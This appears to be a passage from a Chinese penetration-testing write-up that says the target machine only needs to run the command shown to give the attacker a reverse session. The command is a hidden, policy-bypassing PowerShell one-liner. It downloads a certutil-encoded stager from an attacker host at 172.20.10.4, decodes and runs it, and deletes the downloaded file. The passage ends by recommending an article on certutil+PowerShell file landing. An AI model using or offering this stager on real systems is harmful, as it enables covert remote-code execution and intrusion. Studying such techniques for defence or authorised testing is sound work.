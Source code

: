然后靶机执行如下命令即可获得反弹 session

```bash
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

关于 certutil + powershell 的实战食用方法这里推荐 Y4er 师傅的一篇文章： 
[极限环境使用 certutil+PowerShell 配合 Burp 快速落地文件](https://xz.aliyun.com/t/8345 "极限环境使用certutil+PowerShell配合Burp快速落地文件")

[![](assets/1701612219-35a13e66e0fdeb79986278a803cc23f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220307152549-cff96bde-9de7-1.png)
